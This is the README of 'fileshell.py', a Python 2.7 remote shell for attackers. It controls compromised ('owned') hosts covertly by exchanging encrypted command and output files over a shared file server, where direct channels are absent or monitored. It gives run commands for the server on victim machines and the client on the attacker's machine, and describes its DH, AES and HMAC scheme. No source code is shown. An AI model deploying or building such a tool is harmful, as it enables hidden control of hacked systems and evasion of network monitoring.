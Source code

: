 # fileshell
fileshell.py -- a file based remote shell, for use where there is no direct communication
				channel between the attacker and the owned target, but they can communicate
				by writing and reading files to/from a remote share/file server etc, or where other forms 
				of communication are monitored.

				Tested to work on python 2.7.

				Composed of a single client (runs on attacker machine) and one or more servers
				(run on compromised machines). Currently you *must* start the server before running the client!
				Sample workflow:

				1. on host <owned1>, run 'python path\to\fileshell.py \\fileshare\myshare -s
				2. on host <owned2>, run 'python path\to\fileshell.py \\fileshare\myshare -s
				2. on your computer <h4x0r>, run 'python path\to\fileshell.py \\fileshare\myshare -c owned1

				This will look like a usual shell from the client side, but behind the scenes it negotiates
				symmetric encryption and signing keys via DH exchange, then for every command sent and every
				output returned, it encrypts/decrypts via AES-CTR-128 and signs/verifies via HMAC-SHA256
				with the derived keys. 
				All communications, including the key exchange, are done over files	in the given root share
				(the server will create a folder for its target the first time it runs).
				The users (or computer accounts, if running as SYSTEM) running these scripts must have
				read+write+modify access to the given share.

				Features:
				1. Client-server communication starts with a DH handshake for every new session, generating an encryption and a signing key.
				2. All communications after the handshake are AES-128 encrypted with the generated
				encryption key, and signed using HMAC-SHA256 with the signing key.
				3. Client side features shell-like behaviour, with extra commands:
					a. cc <hostname>: changes context (starts new session) to that of hostname.
					b. exit: exits current session gracefully.

				Dependencies:
				1. PyCrypto for Python 2.7 (tested to work on PyCrypto v2.6)
					

